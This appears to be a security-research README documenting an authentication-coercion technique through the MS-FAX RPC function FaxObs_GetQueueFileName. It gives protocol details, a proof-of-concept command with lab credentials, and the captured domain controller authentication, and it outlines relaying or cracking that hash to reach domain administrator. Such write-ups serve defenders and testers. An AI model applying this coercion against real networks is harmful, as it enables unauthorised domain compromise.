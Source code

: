# MS-FAX - Remote call to FaxObs_GetQueueFileName (opnum 6)

## Summary

 - **Protocol**: [[MS-FAX]: Fax Server and Client Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/dabce486-05b1-4ea4-95fe-f2c3d5315ff4)

 - **Protocol UUID**: 6099fc12-3eff-11d0-abd0-00c04fd91a4e

 - **Protocol version**: 0.0

 - **SMB Named pipe**: `\PIPE\SHAREDFAX`

 - **Function name**: [`FaxObs_GetQueueFileName`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/21d0c234-8dca-4f96-b7ea-2bdce029ee00)

 - **Function operation number**: `6`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\SHAREDFAX` and bind to the desired [`MS-FAX`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/dabce486-05b1-4ea4-95fe-f2c3d5315ff4) protocol (with uuid `6099fc12-3eff-11d0-abd0-00c04fd91a4e` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-FAX`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/dabce486-05b1-4ea4-95fe-f2c3d5315ff4) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\SHAREDFAX` This pipe is connected to the protocol [[MS-FAX]: Fax Server and Client Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/dabce486-05b1-4ea4-95fe-f2c3d5315ff4) and allows to call RPC functions of this protocol. We will then call the remote [`FaxObs_GetQueueFileName`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/21d0c234-8dca-4f96-b7ea-2bdce029ee00) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
FaxObs_GetQueueFileName('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
error_status_t FaxObs_GetQueueFileName(
   [in] handle_t hBinding,
   [in, out, unique, size_is(FileNameSize)] 
     LPWSTR FileName,
   [in] DWORD FileNameSize
 );
```

## References

 - Documentation of protocol [MS-FAX]: Fax Server and Client Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/dabce486-05b1-4ea4-95fe-f2c3d5315ff4

 - Documentation of function `FaxObs_GetQueueFileName`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/21d0c234-8dca-4f96-b7ea-2bdce029ee00